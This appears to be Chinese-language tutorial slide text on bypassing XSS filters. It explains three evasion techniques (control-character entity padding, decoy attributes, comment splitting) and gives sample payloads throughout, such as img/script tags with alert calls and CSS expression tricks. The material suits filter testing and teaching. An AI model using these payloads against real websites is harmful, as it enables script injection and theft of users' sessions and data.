

# XSS过滤绕过方式
1、用控制字符的ASCII码填充
　　比如<IMG SRC="&#15；JavaScript：alert('XSS');">，如果你熟悉ASCII码，你应该 知道系统控制字符一共是33个，这里去掉一个头&#00(null)和一个尾&#127(del)，其他31个字符 均可以顺利插入代码头部，对过滤系统进行混淆，并且不影响原代码执行，而且你依然可以用"代码插入 方式"中的"方案7"进行编码的任意转换。七种tab符&#9、换行符&#10、回车符&#13可以插到代码任何地方。
2、插入混淆属性
　　当我们进行一般的文字录入时会发现，并不是所有带"JavaSceipt"这样的字符都会被过滤掉。而是只有在html标签内的特殊字符会被滤掉，这使得我们有了令一套绕过措施，在插入代码的属性前面插 入另一混淆属性，并在该属性中插入让过滤系统误以为是标签结束符的字符，从而让过滤系统认为执行代码在html标签的外面。比如：
<img src="abc>" onmouseover="[code]">            //插入混淆的src属 性
<IMG """><SCRIPT>[code]</SCRIPT>">            //插入混 淆的双引号及 “>”符号
<SCRIPT a=">" SRC="xss.js"></SCRIPT>            //插入混淆的a 属性
3、用注释符分割
　　由于浏览器会忽略掉每种代码的注释符，因此如果我们在代码中的注释符就可以成功地欺骗过滤 系统并且不影响XSS代码的正常运行。比如：
<img style="xss:expr/*XSS*/ession([code])">            //css的注释符号 为/**/，其中的内容会被忽略
<style>@im\port'\ja\vasc\ript:alert("XSS")';</style>   //css中忽略的符号还有“\”
exp/*<A STYLE='no\xss:noxss("*//*");xss:&#101;x&#x2F;*XSS*//*/*/pression (alert("XSS"))'>            //注释混淆后的样子
<style><!--</style><script>[code]//-- ></script>            //html的注释符为<!--注释-->